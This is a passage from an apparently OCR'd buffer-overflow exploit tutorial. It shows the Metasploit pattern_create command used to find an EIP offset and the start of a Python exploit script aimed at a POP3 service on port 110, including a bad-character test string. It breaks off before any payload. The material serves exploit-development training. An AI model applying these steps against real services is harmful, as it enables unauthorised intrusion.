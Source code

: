 ### [1] Send position-determinative pattern and compute buffer offset.

Generate your patterned byte string. Note the length we specify is based on
known-good length of buffer to crash the application. That is, we know we’re hitting EIP at some point with this input length. Copy the output of Metasploit's pattern_create script, using the critical length (2700 bytes) found during fuzzing.

*Note: Do not just copy the 2700-byte-long string below. Generate it yourself as the arguments supplied to pattern_create are required for accurate offset determination.*

```
root@kbox:~# echo -n "pattern  = "; /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 | sed 's/.*/\"&\"/' | sed 's/.\{62\}/&\"\npattern\ \+\=\ \"/g'
  pattern  = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9A"
  pattern += "c0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0"
  pattern += "Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag"
  pattern += "1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1A"
  ...
```

Now modify your script, pasting the output of the above command into the pattern_create section.

```
#!/usr/bin/python

import socket, sys

#################### gsstyle
from colorama import Fore, Back, Style
colorama.init()

def printinfo(output):
  print Style.DIM + "[*] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printresult(output):
  print Style.BRIGHT + Fore.BLUE + "[>] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printalert(output):
  print Style.BRIGHT + Fore.RED + "[!] ",
  for field in output:
    print field,
  print Style.RESET_ALL

#################### Help section
if len(sys.argv) != 2:
  print "Usage: ./sys.argv[0] <ip.addr>"
  print
  print "ARGUMENT        FORMAT  DESCRIPTION"
  print " <ip.addr>       IPv4    IP address of host you want to test."
  print
  sys.exit(0)

#################### Variables
ip = sys.argv[1]   # string argument
port = 110         # int

# Initialize string of UTF hex values \x01 thru \xff for badchar testing:
chars  =     "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
chars += "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
```